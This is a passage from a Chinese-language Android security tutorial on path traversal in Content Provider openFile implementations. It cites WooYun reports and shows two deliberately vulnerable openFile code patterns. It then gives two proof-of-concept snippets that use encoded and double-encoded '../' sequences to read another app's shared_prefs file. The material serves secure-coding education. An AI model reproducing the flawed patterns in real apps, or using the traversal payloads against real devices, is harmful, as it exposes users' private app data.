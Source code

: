 **案例 3：openFile 文件遍历**

*   [WooYun: 赶集网 Android 客户端 Content Provider 组件任意文件读取漏洞](http://www.wooyun.org/bugs/wooyun-2013-044407)
*   [WooYun: 猎豹浏览器（Android 版）任意私有文件数据可被本地第三方窃取漏洞](http://www.wooyun.org/bugs/wooyun-2013-047098)
*   [WooYun: 58 同城 Android 客户端远程文件写入漏洞](http://www.wooyun.org/bugs/wooyun-2013-044411)

Override openFile method

错误写法 1：

```
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
    throws FileNotFoundException {
  File file = new File(IMAGE_DIRECTORY, paramUri.getLastPathSegment());
  return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
}

```

错误写法 2：URI.parse()

```
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
    throws FileNotFoundException {
    File file = new File(IMAGE_DIRECTORY, Uri.parse(paramUri.getLastPathSegment()).getLastPathSegment());
    return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
}

```

POC1：

```
String target = "content://com.example.android.sdk.imageprovider/data/" + "..%2F..%2F..%2Fdata%2Fdata%2Fcom.example.android.app%2Fshared_prefs%2FExample.xml";

ContentResolver cr = this.getContentResolver();
FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));

byte[] buff = new byte[fis.available()];
in.read(buff);

```

POC2：double encode

```
String target = "content://com.example.android.sdk.imageprovider/data/" + "%252E%252E%252F%252E%252E%252F%252E%252E%252Fdata%252Fdata%252Fcom.example.android.app%252Fshared_prefs%252FExample.xml";

ContentResolver cr = this.getContentResolver();
FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));

byte[] buff = new byte[fis.available()];
in.read(buff);

```
